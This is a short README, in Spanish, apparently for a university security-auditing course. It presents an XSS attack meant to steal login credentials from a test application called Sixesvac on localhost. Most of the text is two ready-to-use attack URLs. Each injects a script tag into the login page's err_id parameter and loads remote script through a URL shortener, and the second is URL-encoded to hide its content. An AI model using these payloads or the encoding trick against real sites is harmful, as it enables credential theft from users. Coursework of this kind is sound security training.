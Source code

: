 # sixesvac-xss
Ejemplo de ataque de XSS para el robo de credenciales en la aplicación de prueba Sixesvac, para la asignatura de Auditoría e Xestión de Seguridade.

## URL a usar para el ataque XSS
1. `http://localhost:8080/privado/login.php?err_id=<script src="http://shorturl.at/depAO"></script>` (47 caracteres en parámetro de consulta)
3. `http://localhost:8080/privado/login.php?err_id=%3C%73%63%72%69%70%74%20%73%72%63%3D%22%68%74%74%70%3A%2F%2F%73horturl%2E%61%74%2FdepAO%22%3E%3C%2F%73%63%72%69%70%74%3E` (117 caracteres en parámetro de consulta; discreto mediante codificación URL)

## Acortador de URL usado
https://www.shorturl.at/shortener.php
